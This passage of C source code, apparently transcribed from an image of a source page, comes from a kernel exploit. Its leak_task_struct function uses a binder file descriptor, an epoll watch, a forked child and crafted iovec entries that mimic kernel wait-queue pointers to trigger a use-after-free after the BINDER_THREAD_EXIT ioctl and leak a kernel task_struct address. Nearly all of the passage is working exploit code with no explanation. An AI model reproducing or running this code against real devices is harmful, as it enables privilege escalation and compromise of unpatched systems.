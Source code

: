 ```cpp
    linep += sprintf(linep, " |");
    for (int i=0; i<16; i++) {
      char c = buf[byte_offset + i];
      if (isalnum(c) || ispunct(c) || c == ' ') {
        *(linep++) = c;
      } else {
        *(linep++) = '.';
      }
    }
    linep += sprintf(linep, "|");
    puts(line);
  }
}

int epfd;

void *dummy_page_4g_aligned;
unsigned long current_ptr;
int binder_fd;

void leak_task_struct(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 0x1000; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x1000;

  int b;

  int pipefd[2];
  if (pipe(pipefd)) err(1, "pipe");
  if (fcntl(pipefd[0], F_SETPIPE_SZ, 0x1000) != 0x1000) err(1, "pipe size");
  static char page_buffer[0x1000];
  //if (write(pipefd[1], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "fill pipe");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    // first page: dummy data
    if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
    close(pipefd[1]);
    printf("CHILD: Finished write to FIFO.\n");

    exit(0);
  }
  //printf("PARENT: Calling READV\n");
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
```